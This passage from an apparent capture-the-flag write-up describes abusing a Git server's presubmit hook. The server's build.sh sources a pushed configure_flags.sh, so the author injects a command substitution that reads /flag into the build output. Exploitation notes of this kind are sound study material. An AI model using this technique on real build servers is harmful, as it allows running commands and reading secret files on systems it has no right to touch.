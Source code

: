 Hooks are typically used to protect your Git repository from mistakes, automate manual processes, gather data about git activity, and much more. Some hooks are executed on the client, but others are run on the remote endpoint (like in our case).

Reading carefully what the remote end is telling us, there is also a presubmit "hook" that has been skipped? Now, while the pre-receive hook is quite popular, I have never heard about a pre-submit one… so `presubmit` must be part of the pre-receive hook handler.

Apparently, we can enable this presubmit thing via push option:

```shell
❯ git push --push-option=presubmit
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 10 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 933 bytes | 933.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at 12d7019 my contribute
remote: Building version v0.1.1
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] main -> main (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

Nice 🙂 the server is telling us that it executed `build.sh`, failing on line 5 as the go executable couldn't be found. This is the script it is referring to:

```shell
1. #!/usr/bin/env bash
2. 
3. source configure_flags.sh &>/dev/null
4. echo "Building version ${VERSION}"
5. go build -ldflags="${LDFLAGS[*]}"
6.
```

Too good to be true? Unfortunately, yes: I tried to put some commands in `build.sh` but I soon realized that it's the "previous" version of the script to be executed, not the one being pushed :(

BUT, the script interacts with pushed code, and, in particular, it sources `configure_flags.sh`!

After a few iterations, I edited `configure_flags.sh` as follows:

```shell
#!/usr/bin/env bash

# IMPORTANT: Make sure to bump this before pushing a new binary.
VERSION="v0.1.1-$(cat /flag)"
COMMIT_HASH="$(git rev-parse --short HEAD)"
BUILD_TIMESTAMP=$(date '+%Y-%m-%dT%H:%M:%S')

LDFLAGS=(
  "-X 'main.Version=${VERSION}'"
  "-X 'main.CommitHash=${COMMIT_HASH}'"
  "-X 'main.BuildTime=${BUILD_TIMESTAMP}'"
)
```
